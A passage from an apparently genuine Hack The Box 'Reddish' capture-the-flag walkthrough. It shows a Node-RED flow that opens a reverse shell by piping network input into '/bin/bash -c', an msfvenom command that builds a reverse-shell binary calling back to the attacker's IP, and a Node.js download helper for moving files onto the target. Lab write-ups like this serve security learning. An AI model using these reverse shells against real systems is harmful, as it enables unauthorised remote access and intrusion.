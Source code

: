 Node-RED allows command execution. Import the following flow into the Node-RED and you should see something like this.

```json
[{"id":"30fa9bc2.3414cc","type":"tcp in","z":"506564e3.6cef04","name":"","server":"client","host":"10.10.13.52","port":"1234","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":120,"y":80,"wires":[["cc2b2fad.f52d6"]]},{"id":"4f71ce1a.fc7078","type":"tcp out","z":"506564e3.6cef04","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":650,"y":80,"wires":[]},{"id":"cc2b2fad.f52d6","type":"exec","z":"506564e3.6cef04","command":"/bin/bash -c","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":410,"y":160,"wires":[["4f71ce1a.fc7078"],["4f71ce1a.fc7078"],[]]}]
```

<a class="image-popup">
![277ccaaf.png](/assets/images/posts/reddish-htb-walkthrough/277ccaaf.png)
</a>

Here, I'm running a reverse shell flow, executing `/bin/bash -c` and returning `stdout` and `stderr` to myself. And, because it's running under the context of `/bin/bash -c`, commands with space has to be enclosed in quotes.

Bummer, I know.

That's why I spun off another reverse shell with `msfvenom`.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.13.52 LPORT=9999 -f elf -o rev
```

Next, I've to find a more efficient way of transferring files over to the remote target. To that end, I wrote a `wget` utility in Node.js since `node` and the `request` modules are available. The script has two arguments: the first argument is the download URL and the second argument is the path to save the file.

<div class="filename"><span>wget.js</span></div>

```js
const fs = require('fs');
const request = require('request');

var args = process.argv.slice(2);
var url = args[0];
var location = args[1];

request(url).pipe(fs.createWriteStream(location));
```


[1]: https://www.hackthebox.eu/home/machines/profile/147
[2]: https://www.hackthebox.eu/home/users/profile/12438
[3]: https://www.hackthebox.eu/